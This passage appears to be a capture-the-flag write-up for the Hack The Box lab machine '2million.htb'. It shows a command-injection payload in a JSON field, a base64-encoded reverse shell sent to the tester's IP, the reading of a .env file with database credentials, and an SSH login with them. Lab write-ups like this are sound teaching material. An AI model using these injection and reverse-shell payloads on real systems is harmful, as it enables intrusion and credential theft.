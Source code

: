 This will provide `vpn`for admin and it is long `ahh` text maybe not worth reading `IDK`.
```
$ curl -sv http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=7a0pbm0uacm9s69027tjukf5e9" --header "Content-Type: application/json" --data '{"username" :"shavigio;id;"}'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
* Connection #0 to host 2million.htb left intact
```
This means we can execute commands here.
Logically we can use this for `NetCat`connection. Go to [revshells](https://www.revshells.com/) and use the `bash -i`code. Enter your `IP`and `Port`, Copy that and encode that with `base64`, Then execute this command:
```
nc -nlvp <port> # in other terminal
$ curl -sv http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=7a0pbm0uacm9s69027tjukf5e9" --header "Content-Type: application/json" --data '{"username" :"shavigio;echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMy8xMjM0IDA+JjEK |base64 -d |bash;"}'
```
That will give us the connection on `NetCat`.
```
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.221] 35764
sh: 0: can't access tty; job control turned off
$ ls -la
total 56
drwxr-xr-x 10 root root 4096 Aug  6 20:20 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Aug  6 20:20 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
Go to `ssh`and use that credentials:
```
ssh admin@10.10.11.221
Password:SuperDuperPass123
```
***
And you can `cat`the `user.txt`:b165c7aa079232172893c8fa3c8f2123
***
We can't execute any commands with root's permission:
```
$ sudo -l
[sudo] password for admin:
Sorry, try again.
[sudo] password for admin:
Sorry, user admin may not run sudo on localhost.
```
This means that there is some exploit we need to find. Since the site is in `/var`directory i went to that and there was `/mail`directory:
```
```